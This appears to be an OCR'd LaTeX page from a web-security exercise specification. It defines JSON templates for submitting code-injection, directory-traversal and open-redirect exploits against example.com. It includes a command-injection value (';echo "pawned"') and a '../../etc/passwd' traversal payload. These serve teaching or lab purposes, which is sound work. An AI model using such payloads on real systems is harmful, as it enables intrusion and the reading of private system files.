 \documentclass{article}[10pt]
\begin{document}
\paragraph{Scope}
Inject a script (through LFI / RFI / Php code injection) which echoes the string ``pawned" into the page

\paragraph{Final exploit format\\}

\begin{lstlisting}[language=json,firstnumber=1]
[{
	"http://example.com/index.html" : [{
		method: GET/POST
		params: 
		[
			key: param1,
			value: ";echo "pawned"
		]
	}]
}]
\end{lstlisting}

\subsection{Directory traversals}
\paragraph{Scope}
Page should have the contents of the /etc/passwd file included in the response

\paragraph{Final exploit format\\}
\begin{lstlisting}[language=json,firstnumber=1]
[{
	"http://example.com/index.html" : [{
		method: GET/POST
		params: 
		[
			key: param1,
			value: ../../etc/passwd
		]
	}]
}]
\end{lstlisting}

\subsection{Unvalidated redirects}
\paragraph{Scope}
Navigate the page to \href{https://google.com}{https://google.com}.

\paragraph{Final exploit format\\} 
\begin{lstlisting}[language=json,firstnumber=1]
[{	
	"http://example.com/index.html" : [{
		method: GET/POST,
		params: 
		[
			key: param1,
			value: https://google.com
		]
	}]
}]
\end{lstlisting}
\end{document}
